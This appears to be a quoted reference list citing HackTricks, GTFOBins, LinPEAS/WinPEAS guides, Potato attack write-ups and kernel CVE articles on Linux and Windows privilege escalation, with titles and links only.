> - [Linux Privilege Escalation (HackTricks, 2026)](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)
> - [GTFOBins: The Hacker's Cheat Sheet (Medium, 2025)](https://medium.com/@kshahabaj528/gtfobins-the-hackers-cheat-sheet-for-linux-privilege-escalation-aee171360809)
> - [Linux Privilege Escalation Cheat Sheet (DenizHalil, 2025)](https://denizhalil.com/2025/06/30/linux-privilege-escalation-cheat-sheet/)
> - [WinPEAS Official Site: Interpreting Output](https://winpeas.com/how-to-interpret-winpeas-output-to-prioritize-escala/)
> - [Windows Privilege Escalation: User to SYSTEM (LazyHackers)](https://lazyhackers.in/article/windows-privilege-escalation-user-to-system)
> - [Checklist Windows Privilege Escalation (HackTricks)](https://hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)
> - [SeImpersonatePrivilege + Potato Attacks: GodPotato 2026 (RingSafe)](https://ringsafe.in/seimpersonateprivilege-potato-attacks-system/)
> - [CVE-2026-23111: Linux Kernel nf_tables Privilege Escalation (SecurityArsenal)](https://securityarsenal.com/blog/cve-2026-23111-linux-kernel-nftables-privilege-escalation-detection-and-hardening)
> - [CVE-2024-1086 "Flipping Pages" (SOC Prime)](https://socprime.com/blog/cve-2024-1086-vulnerability/)
> - [Linux Kernel CVEs 2025 (CIQ)](https://ciq.com/blog/linux-kernel-cves-2025-what-security-leaders-need-to-know-to-prepare-for-2026)
> - [LinPEAS Usage Guide (HackerDNA)](https://hackerdna.com/blog/how-to-use-linpeas)
> - [Potatoes Windows PrivEsc (Jorge Lajara)](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
> - [RoguePotato, PrintSpoofer, GodPotato (HackTricks)](https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer.html)
> - [CISA KEV: Linux Kernel Vulnerabilities Exploited in 2025 (LinuxSecurity)](https://linuxsecurity.com/news/security-vulnerabilities/7-linux-kernel-vulnerabilities-exploited-in-2025)
